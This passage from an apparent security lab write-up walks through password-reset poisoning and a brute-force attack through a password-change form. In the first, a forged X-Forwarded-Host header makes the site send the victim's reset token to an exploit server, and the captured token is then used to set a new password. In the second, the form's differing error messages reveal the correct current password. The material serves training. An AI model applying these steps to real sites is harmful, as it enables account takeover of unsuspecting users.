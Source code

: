 `X-Forwarded-Host: exploit-0a5100f104408db9812e0768011500b6.exploit-server.net/`

Also in the body I remove the `username=wiener` and put `username=carlos`, and send this request. The Response is `200 OK`.

In the access log of the exploit server I got a new connection:

```http
GET //forgot-password?temp-forgot-password-token=ak9i3ti8a39n7082p5unywstfdkkjr6k HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
```

Here I can see the token of the `carlos`.

I open my email client, to see the link where I requested my password to be reset, and open it, then I send it to the Burp Repeater.

I modify the `temp-forgot-password-token` and add the stolen token: `GET /forgot-password?temp-forgot-password-token=ak9i3ti8a39n7082p5unywstfdkkjr6k HTTP/2` and send it.

It prompts me to give a new password, which then I use to login and the lab is solved.


---------

## Changing User Passwords

To change the password, you typically have to enter your old password and then two times the new one.

This process relies on the same process for checking that the username and the password match, as a normal login page, so the same vulnerabilities apply here.

Beside that, password change functionalities can be dangerous if it allows an attacker to access it without being logged in, for example if the username is provided in a hidden field, an attacker can edit the value in the request to target other users. From this, usernames can be enumerated and password can be brute-forced.

### Lab.5 Password Brute-Force via Password Change

Credentials to login `wiener:peter` and the victim's username is `carlos`. The goal is to find the password for `carlos` and access it's account page.

I login to the `wiener` account page, and there is a functionality to change the password.

![Pasted_image_20250123085753](https://github.com/user-attachments/assets/dddd5270-b01e-4208-a229-a52f7c58a508)

After trying some attempts, I observed the behavior of the function:
- False current password, matching new passwords - Account is logged out (Please try again in 1 minute).
- False current password, non-matching new passwords - Message: "Current password is incorrect".
- Matching current password, non-matching new passwords - Message: "New passwords do not match".

So, we can use this behavior to brute-force the password. This by using the 3rd case.

By sending this to the `Burp Intruder` and there leaving `non-matching` new passwords, and brute-forcing the current password, we can see about the message that it is provided. If it is "New passwords do not match" then we have a hit.
